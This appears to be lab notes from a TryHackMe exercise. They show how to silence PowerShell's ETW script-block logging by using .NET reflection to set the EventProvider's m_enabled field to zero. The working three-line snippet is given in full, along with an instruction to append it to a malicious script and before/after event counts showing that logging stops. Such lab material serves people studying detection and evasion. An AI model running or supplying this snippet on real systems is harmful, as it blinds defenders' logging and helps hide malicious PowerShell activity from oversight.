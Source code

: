 ## Reflection for Fun and Silence

* Within PowerShell, ETW providers are loaded into the session from a .NET assembly: `PSEtwLogProvider`
* In a PowerShell session, most .NET assemblies are loaded in the same security context as the user at startup
* In the context of ETW (Event Tracing for Windows), an attacker can reflect the ETW event provider assembly and set the field `m_enabled` to `$null`.
* At a high level, PowerShell reflection can be broken up into four steps: Obtain .NET assembly for PSEtwLogProvider. Store a null value for etwProvider field. Set the field for m\_enabled to previously stored value. At step one, we need to obtain the type for the PSEtwLogProvider assembly. The assembly is stored in order to access its internal fields in the next step.

```
$logProvider = [Ref].Assembly.GetType('System.Management.Automation.Tracing.PSEtwLogProvider')
```

* At step two, we are storing a value ($null) from the previous assembly to be used.

```
$etwProvider = $logProvider.GetField('etwProvider','NonPublic,Static').GetValue($null)
```

* At step three, we compile our steps together to overwrite the `m_enabled` field with the value stored in the previous line.

```
[System.Diagnostics.Eventing.EventProvider].GetField('m_enabled','NonPublic,Instance').SetValue($etwProvider,0);
```

* We can compile these steps together and append them to a malicious PowerShell script. Use the PowerShell script provided and experiment with this technique.
* To prove the efficacy of the script, we can execute it and measure the number of returned events from a given command.

### Before

```
PS C:\Users\Administrator> Get-WinEvent -FilterHashtable @{ProviderName="Microsoft-Windows-PowerShell"; Id=4104} | Measure | % Count
7
PS C:\Users\Administrator> whoami
Tryhackme\administrator
PS C:\Users\Administrator> Get-WinEvent -FilterHashtable @{ProviderName="Microsoft-Windows-PowerShell"; Id=4104} | Measure | % Count
11
```

### After

```
PS C:\Users\Administrator>.\reflection.ps1
PS C:\Users\Administrator> Get-WinEvent -FilterHashtable @{ProviderName="Microsoft-Windows-PowerShell"; Id=4104} | Measure | % Count
18
PS C:\Users\Administrator> whoami
Tryhackme\administrator
PS C:\Users\Administrator> Get-WinEvent -FilterHashtable @{ProviderName="Microsoft-Windows-PowerShell"; Id=4104} | Measure | % Count
18
```
